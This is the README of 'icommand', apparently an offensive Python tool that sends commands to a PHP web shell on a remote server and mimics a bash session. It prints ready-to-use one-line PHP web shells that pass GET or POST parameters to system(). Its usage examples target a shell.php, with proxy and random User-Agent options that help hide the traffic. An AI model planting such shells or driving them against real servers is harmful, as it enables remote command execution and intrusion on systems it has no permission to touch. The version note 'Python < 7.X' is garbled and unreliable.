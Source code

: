 icommand - command controller/handler for PHP system function
---
![My image](http://s9.postimage.org/6u4546aov/icommand.png)  

### Info: ###
---
icommand is a command controller to handle PHP _program execution functions_ like system, passthru, exec and etc ...  
The script tries to simulate Linux bash as it works from CLI.  
As of optional settings it supports HTTP proxy together with HTTP header values "User-Agent".  
It sends requests to the server through urllib/urllib2 [Python][] modules.   

* icommand works for **POST** and **GET** requests:
	- `<?php system($_GET['cmd']); ?>`  
	- `<?php system($_POST['cmd']); ?>`

### Usage: ###
---
* --url is a positional argument withing GET and POST requests:
    - python icommand.py --url http://testserver.com/shell.php?cmd=  
    - python icommand.py --url http://testserver.com/shell.php --method POST --parameter cmd
    - python icommand.py -u http://testserver.com -p id --proxy http://127.0.0.1:8080  
    - python icommand.py -u http://testserver.com/shell.php?cmd= --random-agent

[Python]: http://www.python.org/download/
__p.s.__
---
[argparse]: http://docs.python.org/library/argparse.html
If your [Python][]'s version < 7.X  
Then [argparse][] is required.  
To install it run:  
`easy_install argparse` **OR** `pip install argparse`

